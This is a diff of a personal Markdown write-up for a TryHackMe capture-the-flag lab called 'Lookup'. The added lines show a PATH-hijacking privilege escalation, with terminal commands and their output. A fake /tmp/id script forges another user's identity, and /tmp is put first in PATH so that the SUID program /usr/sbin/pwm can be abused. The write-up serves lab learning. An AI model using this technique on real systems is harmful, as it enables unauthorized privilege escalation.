

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Lookup.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Linux Pentest/THM/Lookup.md
+++ b/Linux Pentest/THM/Lookup.md
@@ -138,8 +138,15 @@ ubuntu
 ## i will replace "uid=33(www-data) gid=33(www-data) groups=33(www-data)" with "uid=33(think) gid=33(think) groups=33(think)"
 
 ```
-echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
+www-data@ip-10-129-131-171:/home$ echo '"echo uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
 <3(think) gid=33(think) groups=33(think)"' > /tmp/id
+www-data@ip-10-129-131-171:/home$ chmod +x /tmp/id
+chmod +x /tmp/id
+www-data@ip-10-129-131-171:/home$ $PATH
+$PATH
+bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: No such file or directory
+www-data@ip-10-129-131-171:/home$ export PATH=/tmp:$PATH
+export PATH=/tmp:$PATH
 www-data@ip-10-129-131-171:/home$ /usr/sbin/pwm
 /usr/sbin/pwm
 [!] Running 'id' command to extract the username and user ID (UID)
````
